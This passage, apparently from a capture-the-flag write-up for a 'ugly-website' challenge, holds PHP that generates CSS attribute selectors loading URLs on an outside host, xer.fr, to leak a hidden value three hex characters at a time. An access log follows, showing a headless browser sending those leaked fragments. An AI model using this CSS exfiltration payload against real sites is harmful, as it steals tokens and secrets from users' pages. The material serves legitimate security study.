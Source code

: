```php
	}

	return $ret;
}
?>
<?php for($i = 0; $i <= 0xFFF; $i++): ?>
<?php $hex = sprintf("%03x", $i); ?>
.sgn[value*="<?=$hex?>"]{--p<?=$i?>:url("https://xer.fr/a?<?=$hex?>")}
<?php endfor; ?>

* {
	display: block;
	min-height: 50px;
	border: 1px solid blue;
	animation-duration: 29s;
}
.sgn { animation-name: a; }

@keyframes a { <?=getFrames(0x560, 0)?> }
```

### access.log
```
139.59.145.103 - - [22/Dec/2019:06:42:20 +0100] "GET /a?01a HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:20 +0100] "GET /a?049 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:21 +0100] "GET /a?0b1 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:21 +0100] "GET /a?0c5 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:22 +0100] "GET /a?12a HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:23 +0100] "GET /a?1ad HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:23 +0100] "GET /a?1b0 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:23 +0100] "GET /a?1c6 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:23 +0100] "GET /a?1d1 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
139.59.145.103 - - [22/Dec/2019:06:42:25 +0100] "GET /a?2a9 HTTP/2.0" 404 170 "http://ugly-website.web.jctf.pro/uploads/b91472f7c6cec4972f2f2c462cf661db90e8f7519be01545c140c14ee73096fa.css" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.88 Safari/537.36"
```